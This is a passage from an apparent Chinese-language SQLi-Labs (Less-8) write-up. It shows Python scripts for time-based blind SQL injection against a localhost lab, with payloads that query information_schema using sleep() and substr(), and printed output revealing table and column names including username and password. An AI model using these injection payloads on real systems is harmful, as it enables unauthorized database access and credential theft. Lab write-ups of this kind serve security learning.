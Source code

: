 ```python
        URL_PREFIX + "?id=1' and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i) + ",1)) > {},sleep("+str(SLEEP_TIME)+"),1) --+",
        [0, 128],
        SLEEP_TIME
    ))
    print(columnsName)
```

```
C:\> python writeup.py
    e
    em
    ......
    emails,referers,uagents,user
    emails,referers,uagents,users
```

爆列名：

```python
import requests
import time

MAX_FILED_LENGTH = 40
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"
SLEEP_TIME = 0.5

def getBinarySearchResultByTime(url: str, paramRange: list[int], sleepTime: float)->int:
	......

columnsName = ""
for i in range(1, MAX_FILED_LENGTH+1):
    columnsName += chr(getBinarySearchResultByTime(
        URL_PREFIX + "?id=1' and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users')," + str(i) + ",1)) > {},sleep("+str(SLEEP_TIME)+"),1) --+",
        [0, 128],
        SLEEP_TIME
    ))
    print(columnsName)
```

```shell
C:\> python writeup.py
    i
    id
    id,
    ......
    id,username,passwor
    id,username,password
```

爆数据：

